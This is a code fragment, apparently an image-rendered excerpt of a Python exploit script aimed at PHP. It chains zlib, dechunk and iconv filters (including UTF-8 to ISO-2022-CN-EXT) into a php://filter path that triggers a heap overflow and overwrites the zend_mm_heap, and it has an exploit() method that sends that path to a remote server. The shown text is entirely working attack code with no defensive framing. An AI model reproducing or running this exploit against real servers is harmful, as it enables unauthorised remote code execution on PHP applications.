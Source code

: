 ```python
        step4_use_custom_heap = qpe(step4_use_custom_heap)
        step4_use_custom_heap = chunked_chunk(step4_use_custom_heap)
        step4_use_custom_heap = chunked_chunk(step4_use_custom_heap)
        step4_use_custom_heap = chunked_chunk(step4_use_custom_heap)
        step4_use_custom_heap = compressed_bucket(step4_use_custom_heap)

        pages = (
            step4 * 3
            + step4_pwn
            + step4_custom_heap
            + step4_use_custom_heap
            + step3_overflow
            + pad * self.pad
            + step1 * 3
            + step2_write_ptr
            + step2 * 2
        )

        resource = compress(compress(pages))
        resource = b64(resource) #b64(pages) 
        resource = f"data:text/plain;base64,{resource.decode()}"

        filters = [
            # Create buckets
            "zlib.inflate",
            "zlib.inflate",
            
            # Step 0: Setup heap
            "dechunk",
            "convert.iconv.L1.L1",
            
            # Step 1: Reverse FL order
            "dechunk",
            "convert.iconv.L1.L1",
            
            # Step 2: Put fake pointer and make FL order back to normal
            "dechunk",
            "convert.iconv.L1.L1",
            
            # Step 3: Trigger overflow
            "dechunk",
            "convert.iconv.UTF-8.ISO-2022-CN-EXT",
            
            # Step 4: Allocate at arbitrary address and change zend_mm_heap
            "convert.quoted-printable-decode",
            "convert.iconv.L1.L1",
        ]
        filters = "|".join(filters)
        path = f"php://filter/read={filters}/resource={resource}"

        return path

    @inform("Triggering...")
    def exploit(self) -> None:
        path = self.build_exploit_path()
        start = time.time()

        try:
            msg_print("Sending exploit...")
            print(f'PATH: {path}')

            self.remote.send_exploit(path)
        except (ConnectionError, ChunkedEncodingError):
```
